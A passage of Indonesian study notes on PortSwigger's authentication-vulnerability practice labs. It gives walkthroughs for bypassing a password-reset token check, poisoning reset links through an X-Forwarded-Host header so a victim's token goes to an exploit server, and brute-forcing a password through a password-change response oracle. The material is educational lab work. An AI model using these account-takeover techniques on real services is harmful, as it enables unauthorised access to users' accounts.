





##### Tutorial

1. Login dengan `wiener:peter` dan minta reset password untuk `wiener`; baca tautan reset dari email client di exploit server.
2. Buka form reset dari akun sendiri, lalu hapus parameter `temp-forgot-password-token` dari URL.
3. Dengan token dihapus, kirim form untuk `carlos` — server tidak lagi memvalidasi token, jadi kamu bisa menetapkan password Carlos.
4. Login sebagai `carlos` dengan password baru dan buka **My account**.

##### Reference

<details>
<summary>14. Authentication Vulnerabilities - Lab #3 Password reset broken logic | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=GtTk78pyLPI
Purpose: Di video ini, kami membahas Lab #3 pada modul Authentication dari Web Security Academy. Fungsi reset kata sandi lab ini rentan. Untuk menyelesaikan lab, kami reset kata sandi Carlos lalu login dan akses halaman "My account"-nya.

</details>

<details>
<summary>15. Password reset broken logic — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=zoW8vP26uRU
Purpose: Video ini menunjukkan solusi lab "Password reset broken logic" dari Web Security Academy (Portswigger)

</details>

</details>

##### Lab: Password reset poisoning via middleware

Fungsi reset kata sandi lab ini rentan terhadap password reset poisoning. Pengguna carlos akan sembarangan mengklik tautan apa pun di email yang dia terima. Untuk menyelesaikan lab, login ke akun Carlos.

<details>
<summary>Lab details, screenshots & walkthrough 0.11</summary>

- Kredensialmu: `wiener:peter`
- Username korban: `carlos`

**Screenshots:**








##### Tutorial

1. Login dengan `wiener:peter` dan minta reset password, tangkap request `POST /forgot-password` di Burp.
2. Tambahkan `X-Forwarded-Host: <exploit-server>/exploit` ke request supaya tautan reset mengarah ke exploit server.
3. Carlos sembarangan mengklik tautan; access log exploit server menangkap request dengan `temp-forgot-password-token` milik Carlos.
4. Pakai token itu untuk membuka form reset, tetapkan password baru Carlos, lalu login sebagai `carlos` dan buka **My account**.

##### Reference

<details>
<summary>16. Authentication Vulnerabilities - Lab #11 Password reset poisoning via middleware | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=7_RvLi6fdr0
Purpose: Di video ini, kami membahas Lab #11 pada modul Authentication dari Web Security Academy. Lab ini rentan terhadap password reset poisoning. Pengguna carlos akan sembarangan mengklik tautan apa pun di email yang dia terima. Untuk menyelesaikan lab, kami login ke akun Carlos. Kamu bisa login ke akun sendiri memakai kredensial berikut: wiener:peter. Email apa pun yang dikirim ke akun ini bisa dibaca via email client di exploit server.

</details>

<details>
<summary>17. Password reset poisoning via middleware (Video solution, Audio) — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=o1n6EIY-hPw
Purpose: Video ini menunjukkan solusi lab "Password reset poisoning via middleware" dari Web Security Academy (Portswigger)

</details>

</details>

### Mengganti kata sandi pengguna

Biasanya, mengganti kata sandi melibatkan memasukkan kata sandi saat ini lalu kata sandi baru dua kali. Halaman ini secara fundamental mengandalkan proses yang sama untuk memeriksa kecocokan username dan kata sandi saat ini seperti halaman login biasa. Karena itu, halaman ini bisa rentan terhadap teknik yang sama.

Fungsi ganti kata sandi bisa sangat berbahaya jika memungkinkan penyerang mengaksesnya langsung tanpa login sebagai pengguna korban. Contohnya, jika username disediakan di hidden field, penyerang mungkin bisa mengedit nilai ini di request untuk menargetkan pengguna sembarang. Ini berpotensi dieksploitasi untuk enumerasi username dan brute-force kata sandi.

##### Lab: Password brute-force via password change

Fungsi ganti kata sandi lab ini membuatnya rentan terhadap brute-force. Untuk menyelesaikan lab, pakai daftar kandidat kata sandi untuk brute-force akun Carlos dan akses halaman "My account"-nya.

<details>
<summary>Lab details, screenshots & walkthrough 0.12</summary>

- Kredensialmu: `wiener:peter`
- Username korban: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

**Screenshots:**


##### Tutorial

1. Login dengan `wiener:peter` dan buka **My account**. Cari form Change password: `current-password`, `new-password-1`, `new-password-2`.
2. Kirim request `POST /my-account/change-password` ke Burp Repeater untuk mempelajari responsnya. Masukkan current password yang **salah** dengan dua new password yang **berbeda** — responsnya `Current password is incorrect`. Karena dua new password berbeda, akun **tidak** terkunci, jadi ini bisa diulang dengan aman.
3. Jika current password **benar** tetapi dua new password berbeda, responsnya berubah jadi `New passwords do not match`. Perbedaan itulah oracle kata sandinya.
4. Kirim request ke Burp Intruder, tandai hanya nilai `current-password`, pilih tipe serangan **Sniper**, dan muat wordlist candidate passwords.
5. Biarkan `new-password-1` dan `new-password-2` sebagai dua nilai statis yang berbeda supaya akun tidak pernah terkunci selama serangan.
6. Mulai serangan dan cari respons dengan panjang yang tidak biasa — respons itu berisi `New passwords do not match`, artinya payload tersebut adalah current password yang benar.
7. Login sebagai `carlos` dengan kata sandi yang berhasil dipecahkan dan buka **My account** untuk menyelesaikan lab.

##### Reference

<details>
<summary>18. Authentication Vulnerabilities - Lab #12 Password brute-force via password change | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=tiIg6mGiTKI
Purpose: Fungsi ganti kata sandi lab ini membuatnya rentan terhadap brute-force. Untuk menyelesaikan lab, kami pakai daftar kandidat kata sandi untuk brute-force akun Carlos dan mengakses halaman "My account"-nya.

</details>

<details>
<summary>19. Password bf via password change (Video solution, Audio) — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=UNuSOhgsBh0
Purpose: Video ini menunjukkan solusi lab "Password bf via password change" dari Web Security Academy (Portswigger)

</details>

</details>

## Mencegah serangan pada mekanisme autentikasi milikmu sendiri

## Selamat! Anda telah menyelesaikan Authentication vulnerabilities.

**Authentication Vulnerabilities**

Learning path ini memperkenalkan kerentanan autentikasi, yang berdampak kritis terhadap keamanan. Anda telah mempelajari cara mengidentifikasi dan mengeksploitasi kelemahan autentikasi, melewati proteksi umum, serta memahami teknik-teknik penting untuk mengamankan mekanisme autentikasi.

[PortSwigger – Authentication Vulnerabilities Learning Path](https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities)

**Status:** Selesai ✓